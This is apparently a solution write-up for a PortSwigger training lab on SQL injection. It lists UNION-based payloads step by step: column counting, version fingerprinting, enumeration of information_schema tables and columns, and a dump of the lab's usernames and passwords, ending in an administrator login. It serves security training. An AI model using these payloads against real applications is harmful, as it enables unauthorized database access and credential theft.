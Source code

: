 #Lab: SQL injection attack, listing the database contents on non-Oracle databases

https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle

```bash
GET /filter?category=Tech gifts'
```
```bash
Tech gifts' --
```
```bash
#We get error at 3
Tech gifts' order by 3 --
```
```bash
Tech gifts' UNION SELECT 'a' , 'a' -- 
```
```bash
Tech gifts' UNION SELECT version() , NULL  --

#PostgreSQL 12.18 (Ubuntu 12.18-0ubuntu0.20.04.1)
```
```bash
Tech gifts' UNION SELECT table_name , NULL from information_schema.tables --

#users_qgvxej
```
```bash
Tech gifts' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_qgvxej' --

username_mcupwd
password_weqnoi
```
```bash
Tech gifts' UNION SELECT username_mcupwd,password_weqnoi from users_qgvxej --

administrator 6eatcp9hc861cg4gvy58
wiener wt3apvq460vzgallr2vw
carlos pwbean5zzfbkjxn9t5nj
```
```bash
# We will only login to administrator account and click to home. We completed the lab!
```
